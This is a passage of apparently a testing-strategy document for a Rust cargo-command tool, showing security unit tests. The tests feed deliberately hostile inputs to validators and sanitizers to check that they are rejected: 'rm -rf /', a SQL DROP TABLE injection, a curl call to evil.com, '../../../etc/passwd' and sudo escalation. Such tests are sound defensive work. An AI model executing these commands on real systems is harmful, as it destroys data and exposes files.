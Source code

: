 ```rust
        let result = validator.validate("cargo build; rm -rf /");
        assert!(matches!(result, Err(ValidationError::MaliciousInput)));
    }

    #[test]
    fn test_resource_limit_enforcement() {
        let manager = ResourceManager::new();
        let result = manager.enforce_memory_limit(600_000_000); // 600MB (exceeds 512MB limit)
        assert!(matches!(result, Err(ResourceError::MemoryLimitExceeded)));
    }
}
```

**Security-Focused Unit Tests**:

```rust
#[cfg(test)]
mod security_tests {
    use super::*;

    #[test]
    fn test_input_sanitization() {
        let sanitizer = InputSanitizer::new();

        // Test SQL injection patterns
        let malicious_input = "'; DROP TABLE users; --";
        assert!(sanitizer.is_malicious(malicious_input));

        // Test command injection patterns
        let command_injection = "cargo build && curl evil.com";
        assert!(sanitizer.is_malicious(command_injection));

        // Test path traversal attempts
        let path_traversal = "../../../etc/passwd";
        assert!(sanitizer.is_malicious(path_traversal));
    }

    #[test]
    fn test_privilege_escalation_prevention() {
        let executor = CommandExecutor::new();
        let result = executor.execute("sudo cargo build");
        assert!(matches!(result, Err(SecurityError::PrivilegeEscalation)));
    }
}
```

### 2. Integration Tests

**Purpose**: Validate component interactions and API functionality.

**Test Scenarios**:

- MCP protocol compliance
- Command execution workflow
- Error handling and recovery
- Resource management integration
